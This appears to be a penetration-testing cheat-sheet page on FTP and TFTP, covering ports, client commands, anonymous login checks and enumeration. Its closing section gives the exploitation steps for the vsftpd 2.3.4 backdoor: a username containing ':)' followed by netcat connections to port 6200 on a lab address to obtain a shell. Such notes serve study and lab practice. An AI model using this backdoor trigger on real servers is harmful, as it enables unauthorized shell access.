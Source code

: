 ```yaml
---
icon: file-chart-column
description: File Transfer Protocol
---
```


# FTP

{% hint style="info" %}
* <mark style="color:purple;">Uses</mark> <mark style="color:orange;">**`Port 20`**</mark> <mark style="color:purple;">for</mark> <mark style="color:purple;">**Data**</mark> <mark style="color:purple;"></mark><mark style="color:purple;">and</mark> <mark style="color:orange;">**`Port 21`**</mark>**&#x20;**<mark style="color:purple;">**for Commands.**</mark>&#x20;
* <mark style="color:purple;">It can use</mark> <mark style="color:orange;">**`UDP`**</mark> <mark style="color:purple;">over</mark> <mark style="color:orange;">**`Port 69`**</mark> <mark style="color:purple;">for</mark> <mark style="color:orange;">**`TFTP`**</mark><mark style="color:purple;">.</mark>
* <mark style="color:purple;">Always check for</mark> <mark style="color:orange;">**`anonymous`**</mark> <mark style="color:purple;">login being enabled.</mark>
{% endhint %}

***

{% hint style="info" %}
### <mark style="color:purple;">Basic Commands</mark>

* <mark style="color:purple;">Start the service:</mark>

{% code lineNumbers="true" %}
```bash
ftp <IP>
tftp <IP>
```
{% endcode %}

* <mark style="color:purple;">To login as any other user:</mark>

```bash
USER <user>
```

* <mark style="color:purple;">To specify a password:</mark>

```bash
PASS <password>
```

* <mark style="color:purple;">Download a file:</mark>

```sh
get <file>
```

* <mark style="color:purple;">Upload a file:</mark>

```sh
put <file_path> <destination_path>
```

* <mark style="color:purple;">Passive mode:</mark>

```sh
passive
```

* <mark style="color:purple;">Change the local directory for downloads:</mark>

```sh
lcd /home/<your-username>
```

* <mark style="color:purple;">Exit the session:</mark>

```shell
quit
```

* <mark style="color:purple;">If</mark> <mark style="color:orange;">**`anonymous`**</mark> <mark style="color:purple;">login is enabled, use</mark> <mark style="color:orange;">**`curl`**</mark><mark style="color:purple;">:</mark>

```sh
curl -O ftp://<server-address>/path/to/file
```

***

#### <mark style="color:orange;">`TFTP`</mark>

* <mark style="color:purple;">Uses</mark> <mark style="color:orange;">**`binary`**</mark> <mark style="color:purple;">mode for non-text files:</mark>

```sh
mode binary
```

* <mark style="color:purple;">Uses</mark> <mark style="color:orange;">**`ASCII`**</mark> <mark style="color:purple;">mode for text files:</mark>

```sh
mode ascii
```

* <mark style="color:purple;">To look for files in the</mark>  <mark style="color:orange;">**`TFTP`**</mark> <mark style="color:purple;">root:</mark>

```
find / -name file.txt
```
{% endhint %}

***

{% hint style="info" %}
## <mark style="color:purple;">Enumeration</mark>

* <mark style="color:purple;">Is always good practice to look for vulnerabilities:</mark>

```bash
searchsploit <version>
```

* <mark style="color:purple;">Check where you land:</mark>

```bash
pwd
```

* <mark style="color:purple;">List directories:</mark>

```bash
dir
```

* <mark style="color:purple;">This is the default config file for</mark> <mark style="color:orange;">**`TFTP`**</mark> <mark style="color:purple;">--></mark> <mark style="color:orange;">**`tftpd-hpa`**</mark>
{% endhint %}

***

{% hint style="danger" %}
## <mark style="color:purple;">Vulnerabilities</mark>

### <mark style="color:orange;">`vsftpd 2.3.4`</mark>

* <mark style="color:purple;">Connect to</mark> <mark style="color:orange;">**`FTP`**</mark> <mark style="color:purple;">with any username that contains</mark> <mark style="color:orange;">**`:)`**</mark><mark style="color:purple;">, and</mark> <mark style="color:orange;">**`any password`**</mark><mark style="color:purple;">.</mark>
* <mark style="color:purple;">Then connect to</mark> <mark style="color:orange;">**`port 6200`**</mark> <mark style="color:purple;">to get a shell:</mark>

```bash
nc 10.10.10.131 21
```

* <mark style="color:purple;">Now connect to the backdoor:</mark>

```bash
nc 10.10.10.131 6200
```

***


{% endhint %}
